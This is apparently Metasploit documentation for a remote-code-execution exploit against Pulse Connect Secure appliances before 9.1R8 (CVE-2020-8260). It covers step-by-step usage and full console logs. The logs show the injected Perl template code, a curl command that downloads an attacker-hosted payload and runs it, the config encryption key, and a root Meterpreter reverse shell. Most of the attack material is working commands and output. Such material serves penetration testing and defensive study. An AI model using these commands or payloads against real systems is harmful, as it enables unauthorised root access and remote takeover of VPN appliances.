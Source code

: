 ## Vulnerable Application

The Pulse Connect Secure appliance before 9.1R8 suffers from an uncontrolled gzip extraction vulnerability which allows an authenticated attacker
to overwrite arbitrary files, resulting in Remote Code Execution as root. Admin credentials are required for successful exploitation.

NCC Group [wrote](https://research.nccgroup.com/2020/10/26/technical-advisory-pulse-connect-secure-rce-via-uncontrolled-gzip-extraction-cve-2020-8260/)
in their findings a few different ways to achieve RCE through the gzip vulnerability. This exploit utilizes the Template Toolkit method
which works up to 9.1R8, whereas the other methods were patched earlier.  With this method, since the payload is sent in the perl
template, there are also no bad characters.

Of note, MANY binaries are not in `$PATH`, but are located in `/home/bin/`.  Thanks to @wvu for pointing that out.

Pulse Secure Connect trial can be downloaded [here](https://www.pulsesecure.net/trynow/pulse-connect-secure/).

## Verification Steps

1. Install the server
1. Start msfconsole
1. Do: `use exploit/linux/http/pulse_secure_gzip_rce`
1. Do: `set rhosts [IP]`
1. Do: `set ssl true`
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `run`
1. You should get a root shell

## Options

### cmd

If this option is set, a single command will be run instead of the payload. Defaults to `` (empty)

## Scenarios

### Pulse Connect Secure 9.1R8 build 7453, Meterpreter Payload

```
[*] Processing pulse.rb for ERB directives.
resource (pulse.rb)> use exploit/linux/http/pulse_secure_gzip_rce
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
resource (pulse.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (pulse.rb)> set rport 443
rport => 443
resource (pulse.rb)> set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
resource (pulse.rb)> set username pulse
username => pulse
resource (pulse.rb)> set password pulsepulse
password => pulsepulse
resource (pulse.rb)> set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
resource (pulse.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (pulse.rb)> set srvhost 1.1.1.1
srvhost => 1.1.1.1
msf6 exploit(linux/http/pulse_secure_gzip_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Exploiting...
[*] Using URL: http://1.1.1.1:8080/X8ZY2uaHuTrbj9
[*] 2.2.2.2 - Attempting login to: https://2.2.2.2:443/dana-na/auth/url_admin/login.cgi
[*] 2.2.2.2 - Finding Version
[*] 2.2.2.2 - Version 9.1, revision 8, build 7453 found
[*] 2.2.2.2 - Version is vulnerable
[*] 2.2.2.2 - Exploit trigger will be at https://2.2.2.2:443/dana-na/auth/setcookie.cgi with a header of OPUYNYOI
[*] 2.2.2.2 - curl -so /tmp/xScfkrKh http://1.1.1.1:8080/X8ZY2uaHuTrbj9;chmod +x /tmp/xScfkrKh;/tmp/xScfkrKh;rm -f /tmp/xScfkrKh
[*] 2.2.2.2 - Perl code being injected
if( length $ENV{HTTP_OPUYNYOI}){
   system("/home/bin/curl -so /tmp/xScfkrKh http://1.1.1.1:8080/X8ZY2uaHuTrbj9");
   chmod 0777, "/tmp/xScfkrKh";
   system("env /tmp/xScfkrKh");
}
[*] 2.2.2.2 - Encrypting config with exploit backdoor
[*] 2.2.2.2 -     [*] Key: 7e95421a6b886641431b32c52442e2e483f81f58b0e9e9a5
[*] 2.2.2.2 -     [*] IV: df14482b2b3f9e24
[*] 2.2.2.2 -     [+] Encrypted header: 8ae8e163
[*] 2.2.2.2 -     [*] Digest: 5e457443190f0015e0949bdd19bbae0d
[*] 2.2.2.2 -     [*] Hash: cb269d28ab81904636fac81d57ecdd37
[*] 2.2.2.2 - Requesting backup config page
[*] 2.2.2.2 - Uploading encrypted config backup
[*] 2.2.2.2 - Triggering RCE
[*] Client 2.2.2.2 (curl/7.19.7 (i686-redhat-linux-gnu) libcurl/7.63.0 OpenSSL/1.0.2n zlib/1.2.3) requested /X8ZY2uaHuTrbj9
[*] Sending payload to 2.2.2.2 (curl/7.19.7 (i686-redhat-linux-gnu) libcurl/7.63.0 OpenSSL/1.0.2n zlib/1.2.3)
[*] Sending stage (976712 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:30418) at 2020-11-08 22:15:58 -0500
[*] 2.2.2.2 - Request timed out, most likely due to obtaining a session!
[*] 2.2.2.2 - Logging out to prevent warnings to other admins
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: root @ localhost2 (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 2.2.2.2
OS           :  (Linux 2.6.32-00025-g841d072-dirty)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

### Pulse Connect Secure 9.1R8 build 7453, cmd Execution

```
msf6 exploit(linux/http/pulse_secure_gzip_rce) > set cmd 'uname -a'
cmd => uname -a
msf6 exploit(linux/http/pulse_secure_gzip_rce) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Exploiting...
[*] Using URL: http://1.1.1.1:8080/9fy9OzRRf7zJo4c
[*] 2.2.2.2 - Attempting login to: https://2.2.2.2:443/dana-na/auth/url_admin/login.cgi
[*] 2.2.2.2 - Finding Version
[*] 2.2.2.2 - Version 9.1, revision 8, build 7453 found
[*] 2.2.2.2 - Version is vulnerable
[*] 2.2.2.2 - Exploit trigger will be at https://2.2.2.2:443/dana-na/auth/setcookie.cgi with a header of YHAVWSXI
[*] 2.2.2.2 - Perl code being injected
if( length $ENV{HTTP_YHAVWSXI}){
   system("uname -a");
}
[*] 2.2.2.2 - Encrypting config with exploit backdoor
[*] 2.2.2.2 -     [*] Key: 7e95421a6b886641431b32c52442e2e483f81f58b0e9e9a5
[*] 2.2.2.2 -     [*] IV: ab94ad78a3897ab8
[*] 2.2.2.2 -     [+] Encrypted header: 37fffeb3
[*] 2.2.2.2 -     [*] Digest: 42a0340dfb408186f7d3ce177218fa18
[*] 2.2.2.2 -     [*] Hash: 6ad4c2b6b800c4c9db1e2c345d4a9e8c
[*] 2.2.2.2 - Requesting backup config page
[*] 2.2.2.2 - Uploading encrypted config backup
[*] 2.2.2.2 - Triggering RCE
[*] 2.2.2.2 - Command Output: 
Linux localhost2 2.6.32-00025-g841d072-dirty #1 SMP Mon Jul 20 17:51:26 EDT 2020 x86_64 x86_64 x86_64 GNU/Linux

[*] 2.2.2.2 - Logging out to prevent warnings to other admins
[*] Command Stager progress - 100.00% done (121/121 bytes)
[*] Server stopped.
[*] Exploit completed, but no session was created.
```
